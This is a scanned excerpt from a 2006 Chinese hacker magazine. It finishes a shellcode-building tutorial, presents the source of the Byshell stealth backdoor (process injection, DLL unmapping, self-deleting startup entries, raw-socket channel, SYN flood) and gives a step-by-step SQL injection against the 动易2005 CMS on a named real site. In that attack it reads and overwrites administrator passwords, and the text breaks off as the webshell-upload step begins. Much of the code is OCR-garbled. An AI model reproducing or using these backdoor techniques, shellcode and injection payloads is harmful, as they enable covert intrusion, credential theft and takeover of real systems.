si.dwFlags = STARTF_USESHOWWINDOW|
STARTF_USESTDHANDLES;
//设置为输入输出句柄为 Socket
si.hStdInput = si.hStdOutput = si.hStdError = (void *)
clientFD;

就是先清零,再设置 Flag 和句柄。我们在调试过程中,仔细地、慢慢地、温柔地数,最后可以知道 Si + 2 c h的地方为 Flag 地址,"Si+38h Si+3c h Si+40h"的地方为输入输出和错误句柄。那么在汇编中构造 S i 就是

lea edi,esp;
mov word ptr [edi+2ch], 0x0101;
//si.dwFlags =0x0101
mov [edi+38h],ebx;

//si.hStdInput
mov [edi+3ch],ebx;
//si.hStdOutput
mov [edi+40h],ebx;
//si.hStdError = Socket

实现 CreateProcess 如下

// 暂存 cmd.exe 字符串于 ebp+0x32 中
mov dword ptr:[ebp+0x32],0x00646463;

lea eax,[esp+0x44]
push eax        // 最后一个参数 &ProcessInformation
push edi        // &si
push 0          // 0
push 0          // 0
push 0          // 0
push 1          // 1
push 0          // 0
push 0          // 0
lea eax,[ebp+0x32]
push eax        // "cmd"
push 0          // 0
call [ebp+0x4]
//[ebp+0x4]中存着 CreateProcessA 的地址，执行

### ShellCode 的获取和验证

好了,把汇编连起来,得到"ReBindASM.cpp"验证一下,呵呵,还是成功。如图 7 所示。


图7

有一个出错对话框——当然了,我们的 Esp ebp 都被覆盖了,当然会出错。感兴趣的读者可以自己去把它们恢复一下。剩下我们最感兴趣的 ShellCode 的提取了。
《打造 Windows 下自己的 ShellCode》中讲过,在得到汇编后,可以进行调试,然后把汇编对应的机器码一个个地抄下来。这里当然也可以这样,但代码太多了,一个个的抄也太郁闷了吧……我们换个方法。
进入调试,在进入我们的汇编代码时,在 Memory 窗口中输入 Eip,这样出现的就是我们 ShellCode 在内存中的值,如图 8 所示。

www.hacker.com.cn
2006 精华奉献本 下册

SPECIAL SUBJECT
》栏目编辑 / 刘流 ) liuliu@hacker.com.cn

WTF：后门是黑客们永恒的话题，在各大网站如163、Yahoo、北大等相继被黑之后，越来越多的人开始关注服务器的安全，而各种后门技术也空前地火爆起来！今天我们将给大家带来一个重量级后门的使用和编程方法。新手朋友们有好后门玩，让编程技术爱好者有好的后门编程技术可以借鉴。当然，更多的新技术还等你去发掘。

适合读者：入侵爱好者、网络管理员、黑客迷
前置知识：C 基本语法

### Byshell后门
无进程无DLL无硬盘文件无启动项

文 / 图 by(baiyuanfan@163.com)

现在网络上流行的木马后门类工具很多，但可以称为精品的却没有多少，大多数新手们还在使用Radmin一类的软件来替代后门程序。不幸的是，它们并不是一个真正的后门，极容易被服务器管理员察觉，因此肉鸡经常掉也就很正常了。

一个合格的后门至少应该做到不能有陌生进程存在于任务管理器里，给后门进程起一个看起来像系统进程的名字只是掩耳盗铃。不能在注册表Run启动项或者服务启动项里留下众所周知的启动键值或新增服务，当然更不能直接写开始菜单的启动项。不能如同无视管理员或


图 8

这下简单了，把ShellCode从开始到结束粘贴下来，删掉多余的字符，把空格替换成'\x'，就得到重用端口，突破防火墙的ShellCode了，如下：

```
char ShellCode[] =
"\x55\x83\xEC\x40\x8B\xEC\xC7\x45\x04\xB8\x1B\xE4\x77\xC7\x45\x08\xDA\x41\xA2\x71\xC7\x45\x12\x01\x5A\xA2\x71"
"\xC7\x45\x16\x8D\x37\xA2\x71\xC7\x45\x20\xCE\x37\xA2\x71\xC7\x45\x24\xE2\x5D\xA2\x71\xC7\x45\x28\x8D\x86\xA2\x71"
"\x71\x81\xEC\x00\x02\x00\x00\x54\x68\x02\x00\x00\xFF\x55\x08\x81\xC4\x00\x02\x00\x00\x6A\x00\x6A\x00\x6A\x00\x6A\x00\x68\x00\x00\x00\x00\x8D\x45\x08\x50\x8B\xF4\x6A\x04\x56\x6A\x04\x68\xFF\xFF\x00\x00\x53\xFF\x55\x16\x68\x7F\x00\x00\x01\x68\x02\x00\x00\x15\x8B\xF4\x6A\x10\x50\x53\xFF\x55\x20\x6A\x02\x53\xFF\x55\x24\x6A\x10\x54\x56\x53\xFF\x55\x28\x8B\xD8\x81\xEC\x80\x00\x00\x00\x8D\xC3\x24\x33\xC0\x68\x80\x00\x00\x00\x59\xF3\xAA\x8D\x3C\x24\x66\xC7\x47\x2C\x01\x01\x89\x5F\x38\x89\x5F\x3C\x89\x5F\x40\xC7\x45\x32\x63\x67\x64\x00\x8D\x44\x24\x50\x57\x6A\x00\x6A\x00\x6A\x00\x6A\x00\x6A\x01\x6A\x02\x6A\x00\x8D\x45\x32\x50\x6A\x00\xFF\x55\x04";
```

在Main函数里面嵌入如下代码就可以将ShellCode当成函数执行：

```
lea eax, ShellCode;
call eax
```

测试一下，哈哈，还是成功了。如图9 所示。


图 9

这样我们就亲自打造出了一个ShellCode，而且这个ShellCode在外面是绝对找不到的，呵呵，知道为什么吗？因为这个ShellCode根本不能用啊！（豆大的汗珠从WTF后脑勺上滴下……）一是因为使用的是XP SP0的函数绝对地址，只能在XP SP0下用，如果是2000，或者XP的另外版本，都会失败；二是绑定的是127.0.0.1，其实需要对方的实际IP地址。要解决这两个问题，一是需要动态的获得函数地址，来把我们这个ShellCode改为通用的；二是加入对方IP和端口的定制，这样打造出的才是完美的ShellCode。不过，篇幅嫌薄，版面苦短，就留到下一次介绍吧！欲知后事如何，且听下回分解！

www.hacker.com.cn
2006 精华奉献本 下册

者防火墙一般明目张胆地打开陌生端口。像Bits.dll那样等待连接时无端口，连接时开端口的程序，在端口检查时只有30%的几率能逃脱。另外，后门最好能隐藏自己生成的文件，或者避免感染一些管理员经常检查完整性的系统文件。前3点没有做到的后门程序不是一个“比较高级”的后门程序，当然在使用的时候也就没有稳定性、保密性可言了。

按照我的分类，现在常见的后门大概可以分成3个“级别”。

- 应用级。如WinShell、Radmin、冰河等，它们基本没有采取别的方法来隐藏自己，只是一个普通的能够实现远程控制的应用程序而已。
- 系统级。多多少少采用了一些Ring3下隐藏行踪的编程技术，用得少的比如Bits.dll和Portless，用得多的比如Hxdef。


Hxdef虽然有一个驱动，但是它对系统的Hook全都是Ring3的，因此大家倾向于称它为系统级而非内核级后门。

- 内核级。后门主要部分工作在Ring0，因此有很强的隐蔽性和杀伤力。但是公布的完整的内核级后门数量不多，兼容性也不近人意。这个话题在Phrack和Rootkit.com上有很多有价值的讨论和成果公布。

我在自己写的系统级后门Byshell v0.64中尽力做到以上的要求，然而由于个人能力有限，功能的实现不够全面、稳定，希望大家能给我提好的意见或者替我升级版本。在这篇文章中我将和大家讨论这个开源后门的设计、实现，当然还有实际的应用举例，希望高手不要扔板砖，大家一起讨论。


这是一个实现了无进程、无DLL、无硬盘文件、无启动项的后门程序。利用线程注射DLL到系统进程，解除DLL映射并删除自身文件和启动项，关机时恢复。大量地借鉴和学习了农民Cmdbind2的思想，在这里对农民前辈无私共享的精神致以120分感谢。我允许此软件及其源代码自由传播，但引用时应注明出处。在联系作者并得到同意之前，不得将此软件改编或删选后用作商业用途，可用作学习和私人用途。

Byshell  0.64支持的命令列表如下：cmd,shell,endshell,chpass,byver,sysinfo,pslist,pskill,modlist,get,put,reboot,dettach,popmsg,SYN,queryDOS,endDOS等，具体用法请查看说明书。


说明书上遗漏了refresh命令，它的作用是清除死掉的连接，并且给你机会重新连接，也可以在你换了一个IP以后，清除原来的连接（否则不能正常连接）。

安装后门时只要把Ntboot.exe和Ntboot.dll上传到肉鸡同一目录并且执行“ntboot.exe -install”即可，安装完成后可手动删除Ntboot.exe和Ntboot.dll，连接的时候用By064cli.exe。注意，Byshell v0.64不支持本机对本机测试，v0.63可以。现在我v0.63演示一下使用的效果。

#### 1. 连接

```
please input the server ip address
127.0.0.1
127.0.0.1 will be connected
input the password(the default one is 'by')
by
#cmddir c:\
驱动器 C 中的卷没有标签。
卷的序列号是 CCB2-D751

c:\ 的目录

2005-01-29  14:22    <DIR>          Documents and Settings
2004-10-01  19:24    <DIR>          Inetpub
2004-11-17  20:56    <DIR>          Intel
2004-10-30  14:18          24,576 isapilog.dll
2004-11-11  00:55          24,576 magic_asp.dll
2005-02-07  21:47    <DIR>          My Music
2004-12-21  00:05          124 Operate.ini
2005-01-18  22:38    <DIR>          Program Files
2005-02-07  23:31    <DIR>          ubbackup
2005-02-02  17:54    <DIR>          WINNT
        3 个文件         49,276 字节
        7 个目录  124,207,104 可用字节
```

#### 2. 获得并结束Shell

```
#shell
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>cd..
cd..

C:\WINNT>cd..
cd..

C:\>dir
dir
 驱动器 C 中的卷没有标签。
 卷的序列号是 CCB2-D751

 C:\ 的目录

……省略
        3 个文件         49,276 字节
        7 个目录  124,207,104 可用字节

C:\>endshell
shell terminated
#byver
ByShell server version 0.63
Released: Dec 19,2004 Copyleft@ 'by'# co.ltd.
```

#### 3. 进程列举与Kill（这里有Bug，排列不整齐）


# 黑客防线 2006 精华奉献本 下册
## SPECIAL SUBJECT
> 栏目编辑 > 刘流 > liulu@hacker.com.cn

```
#pslist
process:
pid     filename        num_thread      parentpid
8       System          43              0
184     smss.exe        6               8
208     csrss.exe       11              184
232     winlogon.exe    19              184
260     services.exe    31              232
272     lsass.exe       17              232
456     svchost.exe     11              260
488     SPOOLSV.EXE     14              260
524     msdtc.exe       21              260
636     svchost.exe     18              260
656     lssrv.exe       9               260
688     sqlservr.exe    28              260
776     winmgmt.exe     3               260
812     dfssvc.exe      2               260
832     inetinfo.exe    29              260
856     msssearch.exe   6               260
1224    svchost.exe     11              260
1176    explorer.exe    19              1172
1356    igfxtray.exe    2               1176
1404    PFWMain.exe     4               1176
1412    SOUNDMAN.EXE    2               1176
1428    realsched.exe   4               1176
1436    internat.exe    1               1176
1444    sqlmangr.exe    3               1176
1280    BitComet.exe    9               1176
328     notepad.exe     2               1176
1196    MDM.EXE         5               456
1512    conime.exe      1               1088
1520    cmd.exe         1               488
1504    by063cil.exe    1               1176
#pskill 1428
OK,job was done,cuz we have localsystem &
SE_DEBUG_NAME:)
#modlist 1520

mods of 1520:
module_id   module_name         module_path
1   ntdll.dll           C:\WINNT\System32\ntdll.dll
1   KERNEL32.dll        C:\WINNT\system32\KERNEL32.dll
1   USER32.dll          C:\WINNT\system32\USER32.dll
1   GDI32.DLL           C:\WINNT\System32\GDI32.DLL
1   ADVAPI32.dll        C:\WINNT\system32\ADVAPI32.dll
1   RPCRT4.DLL          C:\WINNT\system32\RPCRT4.DLL
1   MSVCRT.dll          C:\WINNT\system32\MSVCRT.dll
1   IMM32.DLL           C:\WINNT\System32\IMM32.DLL
#
```

好了，就介绍这3个最普通的功能吧。其实在很多场合，这3个功能是最基本的功能，也是最难确保稳定性的3个疑难问题，不过这个后门最突出的特色应该是无进程、无DLL、无硬盘文件、无启动项的表现，在实际的使用过程中相信大家会发现它的优点，下面我们从设计和编程的角度来看这些功能是如何实现的。

### 无进程无DLL技术

在这一部分中我不列举完整的代码，因为它太长了，我将引用关键代码来说明编写思路。

首先是怎样隐藏自身的进程，一个普遍采用的方法就是远程线程注射。但它最大的问题是注射代码到了远程进程的地址空间后，由于地址空间的变化，依赖于原来地址空间的所有直接寻址指令需要重定位。这点对汇编老手来说是很容易理解的，对高级语言程序编写者来说这意味着所有显式和非显式的全局变量（如API地址和字符串）都需要进行手工重定位。

相比于病毒程序，我们很“幸福”，因为我们的注射器可以同时向远程进程注射一个“全局变量块”，再把这个块的地址传送到远程函数，然后在远程函数中使用这个块来代替直接寻址的全局变量，从而免于编写完全“自身可重定位”的代码。后者被认为是非常烦琐并且几乎无法用高级语言实现的，但即使是这样，编写可以重定位的代码复杂度仍然比较大，写功能模块比较多的后门程序将会非常累。农民前辈的CmdBind2实现了完全手工重定位的注射后门，我们看他的源代码可以发现他仅仅在实现最普通的Bind Shell上就花费了很多代码，像ByShell v0.64这样功能复杂的后门，如果也这样实现功能的话，无疑是难以想象的。

取代直接编写可重定位代码的普遍方法是在注射进入远程进程的函数中加载一个DLL，这样的话系统将为你做重定位工作，后门主要功能实现在DLL中。如以前的黑防中，单长虹介绍过这种方法。这种方法也有一个小弊端，就是管理员在审核被你注射的进程时会发现一个不明的DLL从而导致后门暴露。农民前辈提出了一种思路，先加载DLL，然后把这一块内存全部拷贝到其它地方，卸载DLL，再申请与原来加载DLL相同的地址空间，把其他地方“寄存”的DLL代码拷贝回这个空间，然后直接调用这个DLL，就解决了所有的重定位问题，还不会在被注射进程的加载模块列表里出现我们的DLL。农民前辈并没有实现他的想法为代码，一会给出我用这种方法实现的主要代码。

进行比较讨论时我们也来讨论其它的系统级隐藏进程方法。Bingle采用替代Svchost启动的DLL服务的方法来加载后门，Zxshell也使用了这种方法。这种方法的主要问题是不稳定，必须改写注册表敏感键值并在Svchost.exe的加载模块中出现不明模块。当然，如果用和原来同名的木马DLL来代替原来的DLL可以避免以上问题，但是又会遇到新的问题，就是怎样绕过Windows的系统文件保护和管理员例行的系统文件完整性检查。

Hxdef统一采用Hook ring3 API（主要是Ntdll.dll的NativeAPI）的方法完成自身各个方面的隐藏。这种方法对于一般的Ring3检查效果很好，并且可以部分实现端口复用。它的主要问题有Ring3下Hook的手段不多，而且比较“兴师动众”（Hxdef向系统中所有进程注射木马数据），效果还不是很好，极易被Ring0的RootKit Detector发现，如ICESWORD；最后还有就是编程烦琐。

我选用了注射远程进程Spoolsv.exe，假脱机打印服务的方法，并且在注射到远程的函数中加载，然后卸载了一个木马DLL——Ntboot.dll，注射器则是Ntboot.exe。请看代码：

```
void*injcode0(HANDLE,prohandle;//注射对象进程句柄
DWORD pid=0;//对象进程PID
int ret; //临时变量

//使用toolhelp32函数得到注射对象PID
Sleep(1000);
HANDLE snapshot;
snapshot=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,
0);
struct tagPROCESSENTRY32 processsnap, processsnap;
dwSize=sizeof(tagPROCESSENTRY32);
char injexe[]="ipolsrv.exe";//注射对象进程。大家可以自己改
for(Process32First(snapshot,&processsnap);
Process32Next(snapshot,&processsnap)){
if(!strcmp(processsnap.szExeFile,injexe))
{pid=processsnap.th32ProcessID;break;}
}
CloseHandle(snapshot);//得到PID
//取得SE_DEBUG_NAME权限
HANDLE hToken;
OpenProcessToken(GetCurrentProcess(),
TOKEN_ADJUST_PRIVILEGES,&hToken);
TOKEN_PRIVILEGES tp;
tp.PrivilegeCount = 1;
LookupPrivilegeValue(NULL,SE_DEBUG_NAME,&tp.Privileges
[0].Luid);
tp.Privileges[0].Attributes=SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(hToken,0,&tp, sizeof(tp),0,0);
//现在注射
prohandle=OpenProcess(PROCESS_ALL_ACCESS,1,pid);
DWORD WINAPI injfunc(LPVOID);//injfunc就是注射的函
数，需要手工重定位
//下面取得需要用的API地址并写进将要注射的全局变量
块。Injapistr是全局结构，是全局变量块的内容
HMODULE hModule;
LPVOID paramaddr;//全局变量块地址
hModule=LoadLibrary("kernel32.dll");
injapistr.myLoadLibrary=(struct HINSTANCE__ *(__stdcall
*)(const char *)GetProcAddress(hModule,"LoadLibraryA"));
injapistr.myGetProcAddress=(FARPROC (__stdcall*)
(HMODULE,LPCSTR))GetProcAddress(hModule,
"GetProcAddress");
injapistr.myVirtualAlloc=(void *(__stdcall *)(void *,unsigned
long,unsigned long,unsigned long))GetProcAddress(hModule,
"VirtualAlloc");
injapistr.myFreeLibrary=(int (__stdcall *)(struct HINSTANCE__
*))GetProcAddress(hModule,"FreeLibrary");
injapistr.myIsBadReadPtr=(int (__stdcall *)(const void *,un-
signed int))GetProcAddress(hModule,"IsBadReadPtr");
injapistr.myVirtualFree=(int (__stdcall *)(void *,unsigned long,
unsigned long))GetProcAddress(hModule,"VirtualFree");
//在目标进程里分配“全局变量块”，并写入API地址
paramaddr=VirtualAllocEx(prohandle,0,sizeof(injapistr),
MEM_COMMIT|MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
ret=WriteProcessMemory(prohandle,paramaddr,&injapistr,sizeof
(injapistr),0);
//写入injfunc函数
```

```
void* injfuncaddr=VirtualAllocEx(prohandle,0,20000,
M E M _ C O M M I T | M E M _ R E S E R V E ,
PAGE_EXECUTE_READWRITE);
ret=WriteProcessMemory(prohandle,injfuncaddr,injfunc,20000,0);
//激活远程线程
CreateRemoteThread(prohandle,0,0,(DWORD (WINAPI *)(void
*))injfuncaddr,paramaddr,0,0);
CloseHandle(prohandle);
return;
}
//注射到远程的函数，负责完成加载和卸载功能复杂的木
马DLL的艰巨任务
DWORD WINAPI injfunc(LPVOID paramaddr){
//paramaddr，全局变量块首址。所有静态全局变量都需要
重定位（直接寻址的），而动态分配（堆, VirtualAlloc）和
栈变量不需要，因为他们使用间接寻址。其实字符串也可
以在刚才写进全局变量块，但是字符串不多，这里直接用
ASM搞定。
char ntboot[16];
char msgboot[16];//变量名字起错了，应该是DLL的后门主
函数名。汗，希望不要误导大家。
INJAPISTR * pinjapistr=(INJAPISTR *)paramaddr;
__asm{
mov ntboot,'n'
mov ntboot+1,'t'
mov ntboot+2,'b'
mov ntboot+3,'o'
mov ntboot+4,'o'
mov ntboot+5,'t'
mov ntboot+6,'.'
mov ntboot+7,'d'
mov ntboot+8,'l'
mov ntboot+9,'l'
mov ntboot+10,0
mov msgboot,'C'
mov msgboot+1,'m'
mov msgboot+2,'d'
mov msgboot+3,'S'
mov msgboot+4,'e'
mov msgboot+5,'r'
mov msgboot+6,'v'
mov msgboot+7,'i'
mov msgboot+8,'c'
mov msgboot+9,'e'
mov msgboot+10,0
}
HMODULE hModule=pinjapistr->myLoadLibrary(ntboot);
//加载Ntboot.dll
DWORD (WINAPI *myCmdService)(LPVOID);
//DLL 后门的主函数名
myCmdService=(DWORD (WINAPI *)(LPVOID))pinjapistr->myGetProcAddress(hModule,msgboot);
//各位看官，以下是精华了：
unsigned int memsize=0;
void * tempdll=pinjapistr->myVirtualAlloc(0,0x23000,
MEM_COMMIT|MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(tempdll,hModule,0x23000);
```

## SPECIAL SUBJECT

》栏目编辑 》刘流 liuliu@hacker.com.cn

```cpp
//0x23000是DLL的大小，不多不少。如果你改变了Ntboot.
dll 的大小请注意调整这个值
pinjapistr->myFreeLibrary(hModule);
hModule=(HMODULE)pinjapistr->myVirtualAlloc(hModule,
0x23000,MEM_COMMIT|MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(hModule,tempdll,0x23000);
pinjapistr->myVirtualFree(tempdll,0x23000,MEM_DECOMMIT);
// 结果，DLL没有被加载，但是又可以发挥作用，爽吧？！
myCmdService(0);// 调用后门主函数。
return 0;
}
```

下一个问题是启动项和文件。Ntboot.exe是后门的注射器，将自己作为服务启动，我们决不能让管理员发现服务键值。怎么办？这个也是农民前辈提出的思想 先删除所有后门文件和服务，设定一个关机通知和一个关机钩子，在即将关机的时候写入文件和服务项。同样的，一开机这个服务只要启动了就会先把自己删除，这样就实现了无文件和无启动项。管理员用注册表对比将不能发现异常，也无处寻找我们的后门文件。看一下设定一个关机通知和一个关机钩子的代码

```cpp
DWORD WINAPI hookthread( LPVOID lpParam )
{
MSG msg;int tmpret;char tmpstr[100];
LRESULT CALLBACK JournalRecordProc(int code,WPARAM wParam,LPARAM lParam);
msg;hook=SetWindowsHookEx(WH_JOURNALRECORD,
 JournalRecordProc,GetModuleHandle(0),0);
if(!msg;hook){MessageBox(0,itoa(GetLastError(),tmpstr,10),0,0);
DebugBreak();}
tmpret=SetConsoleCtrlHandler(HandlerRoutine,1);
if(!tmpret){MessageBox(0,itoa(GetLastError(),tmpstr,10),0,0);
DebugBreak();}
while (GetMessage(&msg, NULL, 0, 0)){void resume();
if(msg.message==WM_QUERYENDSESSION){resume();}
}
UnhookWindowsHookEx(msg;hook);
return 0;
}

BOOL WINAPI HandlerRoutine(DWORD dwCtrlType){void resume();
switch(dwCtrlType)
{
case CTRL_SHUTDOWN_EVENT:
resume();//resume函数，顾名思义就是恢复文件启动项
break;
default:
break;
}
return 0;
}

LRESULT CALLBACK JournalRecordProc(int code,WPARAM wParam,LPARAM lParam){void resume();
if(code<0){return CallNextHookEx(msg;hook,code,wParam,lParam);}
if(code==HC_ACTION){
 EVENTMSG * pEvent=(EVENTMSG *)lParam;

if(pEvent->message==WM_KEYDOWN && LOBYTE
(pEvent->paramL)==0xFF){resume();}
}
return CallNextHookEx(msg;hook,code,wParam,lParam);
}
```

与Hxdef的Hook文件注册表的Native API相比，这种办法的好处是根本就不存在文件，也不会有什么Ring0的Rootkit Detector发现被Hook API隐藏的文件和注册表项。坏处是如果对方直接按电源关机我们就“安息”了。于是我们就会安慰自己说 这个后门有足够的隐蔽性，不会让对方怀疑到中了后门，以至于采用掉电关机的BT手段。当然，如果你用Hxdef，那么相信我，现在的Rootkit Detector很普遍，Hxdef已经成为众矢之的了，在管理员检查时也会“安息”得很快的。

最后是怎样实现无端口（像用Rootkit隐藏掉端口那种不叫无端口，那种东西不但无法穿过防火墙，还会在管理员扫描自己的机器时暴露），这是Byshell v0.64的弱项，Ring3后门本来难有什么好办法进行端口复用，使用raw_socket监听TCP只能做到像bits.dll那样的“等待连接时无端口”；把自己加载成SPI基础服务提供者或者分层服务提供者，可以截获所有Ring3网络通信，但会在注册表和系统中留下足够多的信息从而导致我们后门“安息”。Hxdef的Hook系统中所有进程的Recv/WSARecv方法虽然有可能复用Ring0端口如139和445的弊端，但还是现在看起来比较好的Ring3端口复用的办法。到现在为止，Byshell采取的方法是使用Socket_raw的自定义协议，就是非TCP非UDP协议进行通信，可以穿越大多少软件防火墙和一些硬件防火墙，但是它的弊端是不保证穿过所有防火墙，并且不支持Windows XP SP2，因为后者取消了对Socket_raw的支持。我的实现比较简单，就是用一个协议号224监听连接和刷新，另一个协议号225传输后门数据，很简单：

```cpp
WSADATA WSAData;
WSAStartup(MAKEWORD(2,2),&WSAData);
SOCKET sock224=socket(AF_INET,SOCK_RAW,224);
sockaddr_in srvaddr;
memset(&srvaddr,0,sizeof(struct sockaddr_in));
srvaddr.sin_family= AF_INET;
srvaddr.sin_addr.s_un.s_addr =INADDR_ANY;
ret=bind(sock224,(struct sockaddr *)&srvaddr,sizeof(struct sockaddr));
if(ret){goto label2;}
dwThreadId=0;char buff224[128];
DWORD WINAPI threadfunc( LPVOID lpParam );
HANDLE thrdhdl;
//建立225的连接线程
thrdhdl=CreateThread(0, 0, threadfunc, 0, 0, &dwThreadId);
//等待刷新
while(1){recvfrom(sock224,buff224,128,0,0,0);
if(strncmp(buff224+32,sizeof(IP_HEADER)u"+_(*&^%$#@!"
"byrefresbreak",27) && strncmp(buff224+sizeof(IP_HEADER),
pwd,strlen(pwd))){
    TerminateThread(thrdhdl,0);goto label1;}
```


在225的代码里我实现了简单的差错控制，代码比较长这里不列举了，有兴趣的朋友请看源代码。由于这个复用方法不是非常可靠、稳定，所以我公布了Byshell v0.63，它直接开了一个TCP端口138，完全不符合后门要求，但是给大家用来作测试还是可以的。如果大家发现Byshell v0.64不是很稳定可以试试v0.63。不过一个严重的失误是我在Byshell v0.64的说明书里漏了一个命令`refresh`，它可以清除万一出现的225连接死掉，并且给你机会重新连接。

最后就是Byshell实现了非常多的命令，比如查看系统信息、执行命令、在后门连接中上传下载，甚至还有SYN洪水攻击。后门的功能模块是Work()函数，这样便于进行功能拓展和模块化编程。针对它端口复用不理想的现状，我会继续升级。以后可能写成Hxdef那样的Ring3复用，也可能是Ring0的过滤驱动之类的东西，也希望前辈们继续指导我。

我的代码风格并不好，喜欢不分行和紧凑代码，不过还是希望大家一起来开发这个软件。在这个后门的写作中，3个人给了我很大的帮助，请允许我占用篇幅来表示对他们的感谢。他们是谷夕(gxison)，黄鑫(glacier)，当然还有农民，这个后门应该是他们的功劳。

如果有问题或者想和我交流，请Mail到baiyuanfan@163.com，谢谢大家对ByShell和我的关注和支持。

适合读者：脚本爱好者，入侵爱好者
前置知识：脚本入侵基础

### 攻破华夏黑客联盟

文 / 图 llkz 勇哥们

动易2005是动易公司推出的新一代网站自助管理系统，它采用组件形式发布，安全可靠，但是由于编程人员粗心，在删除消息的代码中，对MessageID变量没有进行充分的过滤，使得恶意用户可以通过SQL注入获取敏感信息，甚至获得系统权限。从而轻松将这价值8500的商业系统送入地狱。我们可以通过以下连接测试http://172.18.18.87/User/User_Message.asp?Action=Del&ManageType=Inbox&MessageID=@@version
如果系统是Access版本，将返回以下错误页面。如图1所示。


如果不是Access的，将会暴出目标主机SQL数据库的版本。我们正好可以利用这点判断程序的版本。下面我就以SQL版本为例，说明漏洞利用过程，因为使用此程序的网站大部分都是商业站点，我们就拿黑客站点www.77169.org作为测试目标吧。

由于程序中的代码是封装到dll中的，而且dll经过了加密，通过dll分析很困难。Delete FROM PE_Message WHERE incept='&request("username")&' And id in ('&request("messageid")&')，其中messageid只进行了replace(messageid,"'","")的处理，明白了这些情况，我们注入起来就如鱼得水了。通过程序使用的查询语句，我们可以看到程序对messageid是作为int型处理的，如果我们提交的messageid是SQL内置函数或者是一条查询语句，且返回的结果是varchar型，那SQL Server将varchar型转换成int型的时候就会报错。比如我们提交如下的messageid变量messageid=select scritname from pe_admin就会产生以下的错误。如图2所示。


如果要查询的语句返回的值是text类型是不会暴出字段中的值的，如查询为select downloadurl from pe_soft where softid=1234，而返回结果是text类型，SQL Server虽然会转换出错，但并不会暴出返回的数据，不过我们可以通过显式的转换先将text类型转换成nvarcha，一样可以暴出数据，这里我们就使用cast函数了，提交messageid=select cast(downloadurl as varchar(4000)) from pe_soft where softid=1234，这样就会暴出softid为1234的程序的下载地址了。哈哈，如果这个软件是会员软件，我们就可以绕过限制直接下载了，为了方便广大的菜鸟同志，我特意写了个软件，可以直接读出数据库中text,varchar,nvarchar类型字段中的数据，大家使用的时候可以通过+连接符号，联合查询varchar型和int型的数据，读出int型字段中的数据。

程序运行如下，如图3所示。


图3

使用起来非常简单，先登录要查询信息的网站，随便注册个用户即可，然后点击getCookie就可以获取Cookie信息(由于Windows XP SP2的限制，可能得不到Cookie，大家可以自己将Cookie粘贴到输入框中)整个查询语句中不能含有'\'符号，所以程序中的条件输入框可以不填，或者不含有'\'。由于77169.org将后台管理的目录改名了，我们很容易利用上面的方法从pe_log中读到后台管理地址。我们得到管理页面是http://www.77169.org/aeadmin/admin_index.asp。

#### 第二步：更新数据库，获取后台管理权限

先看看管理员的用户名是什么。

messageid=select adminname from pe_admin where id = 1得到以下结果。如图4所示。


图4

用户名是admin11ad9，很BT的用户名啊，我估计应该是个超级管理员账号吧。为了便于恢复管理员的密码，我首先注册了个用户为llikz。提交

messageid=1);update pe_user set question=(select password from pe_admin where id=1) where username=char(0x6C)%2Bchar(0x6C)%2Bchar(0x69)%2Bchar(0x6B)%2Bchar(0x7A);--意思是将用户名为admin11ad9的管理员的密码更新到注册用户名为llikz的密码提示问题字段。

注意其中char(0x6C)%2Bchar(0x6C)%2Bchar(0x69)%2Bchar(0x6B)%2Bchar(0x7A)是llikz使用char函数得到的，避免了语句中''符号的出现，关于将字符串转换成以上结构，我编写了个工具code.exe，使用方法如图5所示。


图5

如果转换的字符串很长的话，请使用重定向符号将结果重定向到一个文件。我在以下内容中会介绍到。当然我们还可以使用SQL encode将llikz编码为0x6c006c0069006b007a00，此时提交的messageid就为

1);update pe_user set question=(select password from pe_admin where id=1) where username=0x6c006c0069006b007a00;--

看看成功没。如图6所示。


图6

然后提交：

```
messageid= 3);update pe_admin set password=(select userpassword from pe_user where username=char(0x6C)%2Bchar(0x6C)%2Bchar(0x69)%2Bchar(0x6B)%2Bchar(0x7A)) where id=1;--
```

将管理员的密码修改为llikz用户的密码，这个用户可是你自己注册的，你可别告诉我密码你不记得了，呵呵。到这里为止我们就可以登录后台管理了，到后台管理页面填入用户名密码，看看怎么样。如图7所示。

哈哈，成功登录了吧，可惜啊，用户竟然不是超级管理员，失败。这个账号对我们没有利用价值，恢复密码吧：


图7

```
messageid=3);update pe_admin set passwd=(select question from pe_user where username=char(0x6C)%2Bchar(0x6C)%2Bchar(0x69)%2Bchar(0x6B)%2Bchar(0xA7)) where id=1;
```

换个用户登录看看，重复以上步骤，经过我不懈的努力，终于得到了超级管理员的权限，如图8所示。


图8

#### 第三步：突破后台限制，上传WebShell

我先在本机上演示动易2005后台获取WebShell的方法，方法适用于Access和SQL的版本。

在后台的文章管理顶部菜单设置中发现以下界面。如图9所示。


图9

再看看admin目录下的RootClass_Menu_Config.asp文件的内容：

```
<%
'菜单显示参数设置
Const RCM_Menu_1=4	'	菜单弹出方式：1:左 2:右 3:上 4:下
Const RCM_Menu_2=10	'	菜单弹出横向偏移量
Const RCM_Menu_3=90	'	菜单弹出纵向偏移量
Const RCM_Menu_4=2	'	菜单项边距
Const RCM_Menu_5=33	'	菜单项间距
Const RCM_Menu_6=16	'	菜单项左边距
Const RCM_Menu_7=7	'	菜单项右边距
Const RCM_Menu_8=100	'	菜单透明度 0-100 完全透明--完全不透明
Const RCM_Menu_9=1	'	其它特效
Const RCM_Menu_10=4	'	鼠标指在菜单项时，菜单弹出效果
Const RCM_Menu_11=1	'	其它特效
Const RCM_Menu_12=23	'	鼠标移出菜单项时，菜单弹出效果
Const RCM_Menu_13=50	'	菜单弹出效果速度:0-100
Const RCM_Menu_14=2	'	弹出菜单阴影效果 0: none 1: simple 2: complex
Const RCM_Menu_15=4	'	弹出菜单阴影深度
Const RCM_Menu_16=#999999	'	弹出菜单阴影颜色
Const RCM_Menu_17=#ffffff	'	弹出菜单背景颜色
Const RCM_Menu_18=	'	弹出菜单背景图片，只有当菜单项背景颜色设为透明色 transparent 时才有效
Const RCM_Menu_19=3	'	弹出菜单背景图片平铺模式。0: 不平铺 1: 横向平铺 2: 纵向平铺 3: 完全平铺
Const RCM_Menu_20=1	'	弹出菜单边框类型 0: 无边框 1: 单实线 2: 双实线 5: 凹陷 6: 凸起
